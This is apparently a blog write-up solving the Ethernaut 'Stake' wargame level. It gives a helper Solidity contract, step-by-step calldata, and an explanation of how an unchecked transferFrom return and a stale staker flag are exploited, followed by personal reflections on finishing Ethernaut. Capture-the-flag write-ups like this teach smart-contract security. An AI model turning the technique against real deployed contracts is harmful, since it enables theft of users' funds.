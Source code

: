 # Many requirements, many calls.

This level has a few requirements to pass:

```
The Stake contract's ETH balance has to be greater than 0.
totalStaked must be greater than the Stake contract's ETH balance.
You must be a staker.
Your staked balance must be 0.
```

It requires a few calls not just from your EOA wallet, but possibly from contract as well. Another EOA would also do the trick, but I have another `DoDumbCall` contract set up for this.

The older `DoDumbCall` would have done the trick, if only I had made the function `payable`. Alas, we're all mortals after all.

```solidity
contract DoDumbCall {
    function doDumbCall(address _contract, bytes memory _data) public {
        (bool success,) = _contract.call(_data);
        if (!success) {
            revert();
        }
    }

    function doDumbCallWithMoney(address _contract, bytes memory _data) public payable {
        (bool success,) = _contract.call{value: msg.value}(_data);
        if (!success) {
            revert();
        }
    }
}
```

This contract is deployed [here](https://sepolia.etherscan.io/address/0x5A74E2160c1EaCa22869cCe05F869b7cFe929EcE#code) for posterity.

# The steps

1. We call `Stake::StakeEth` via `DoDumbCall::doDumbCallWithMoney` with calldata `0x78e7ed2f` to get the Eth balance of `Stake` up.
2. We `approve` `Stake` for an insane amount of tokens. `WETH` address is publicly available on `Stake`, so we call that contract via `DoDumbCall::doDumbCall`. The calldata is `0x095ea7b30000000000000000000000003ce315ba311c9f594251511fa7624664622cbe48000000000000000000000000000000000000000000000000016345785d8a0000`
3. We call `Stake::StakeWETH` with that insane amount. The calldata is `0x6e35c740000000000000000000000000000000000000000000000000016345785d8a0000`.
   `StakeWETH` has a flaw, in that it doesn't check for the successful call of `transferFrom`. It gets the `bool`, but doesn't `revert` if the `bool` is `false`. `totalStaked` gets updated as well. We take advantage of this.

```solidity
(bool transfered,) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender, address(this), amount));
Stakers[msg.sender] = true;
return transfered;
```

4. From our EOA, we call `Stake::StakeEth` to become a staker.
5. From our EOA, we call `Stake::Unstake` with whatever `amount` we just staked. The contract logic only updates the user's staked amount, but doesn't update the staker to be `false` is the total amount staked is zero.

```solidity
function Unstake(uint256 amount) public returns (bool) {
        require(UserStake[msg.sender] >= amount, "Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success,) = payable(msg.sender).call{value: amount}("");
        return success;
    }
```

And that's it.

# The End of Ethernaut

I kinda feel sad, to be honest. I've been playing it on and off, got busy with other stuff in between, procrastinated, had lazy days, sad days, had all those human follies. But it's over now.

What I most struggled with was MagicNumber, where I had to try for multiple days to figure out the answer. Now, after having learned Huff, it's a walk in the park. It's as Robin Sharma said in a video: everything you now find easy, you once found hard.

So there's hope for the things that you now find hard.

Also, that mystery of the human condition: at the end of it all, what I'm grateful for is the struggle, not the reward.
